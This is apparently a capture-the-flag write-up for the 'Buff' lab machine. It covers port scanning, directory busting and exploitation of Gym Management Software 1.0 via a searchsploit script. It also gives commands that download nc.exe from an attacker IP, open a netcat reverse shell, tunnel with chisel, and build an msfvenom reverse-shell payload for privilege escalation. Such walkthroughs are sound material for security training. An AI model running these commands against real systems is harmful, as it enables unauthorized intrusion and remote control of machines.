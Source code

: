 
# Buff
## NMAP

* Rust Scan Results

```console
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
```

* NMAP Results

```console
8080/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```


## Web

* Directory busting

```
[07:52:30] 200 -   66B  - /.gitattributes 
[07:52:49] 200 -    5KB - /about.php 
[07:53:33] 200 -    4KB - /contact.php
[07:53:44] 200 -    4KB - /edit.php
[07:53:49] 200 -    4KB - /feedback.php
[07:53:54] 200 -  143B  - /home.php 
[07:54:03] 200 -   18KB - /license
[07:54:03] 200 -   18KB - /LICENSE
[07:54:32] 200 -  309B  - /Readme.md
[07:54:32] 200 -  309B  - /readme.md
[07:54:32] 200 -  309B  - /README.md
[07:54:32] 200 -  309B  - /README.MD
[07:54:32] 200 -  309B  - /ReadMe.md
[07:54:34] 200 -  137B  - /register.php
[07:54:58] 200 -  209B  - /up.php 
[07:54:59] 200 -  107B  - /upload.php
```

* License reveals that it's using `Gym Management Software 1.0`

```bash
searchsploit gym management software
searchsploit -m php/webapps/48506.py .
python2 48506.py -u http://buff.htb:8080/
```

* Post getting the shell we can import `nc.exe` and get a fluid shell as the shell from the exploit is much restricted

```bash
powershell -c "iwr -Uri http://10.10.x.x/nc.exe -O nc.exe"
nc.exe -e cmd 10.10.x.x 9001
```

![buff-user](./images/buff-user.png)
## Priv-Esc

* by executing linpeas we can observe the Cloudme_1112.exe and it's respective service running on the machine
* to expose the internal service we can use chisel

```text
chisel.exe client 10.10.x.x:8000 R:8888:localhost
./chisel server -p 8000 --reverse
```

* Modifying the known payload with

```
msfvenom -a x86 -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.x.x --smallest -b "\x00\x0a\x0d" -f python
```

* Executing the payload now gives us an Admin shell

![buff-admin](./images/buff-admin.png)